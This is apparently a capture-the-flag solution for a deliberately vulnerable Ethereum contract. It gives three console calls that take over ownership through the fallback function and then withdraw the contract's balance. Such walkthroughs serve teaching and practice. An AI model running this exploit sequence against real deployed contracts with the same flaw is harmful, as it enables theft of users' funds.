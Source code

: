 Solution
========

1. await contract.contribute({value:1}) --> send 1 wei to the contract to make sure contributions[msg.sender] > 0
2. await contract.sendTransaction({value:1}) --> send 1 wei using the fallback function --> now we own the contract!
3. await contract.withdraw() --> reduce balance to 0 --> SOLVED
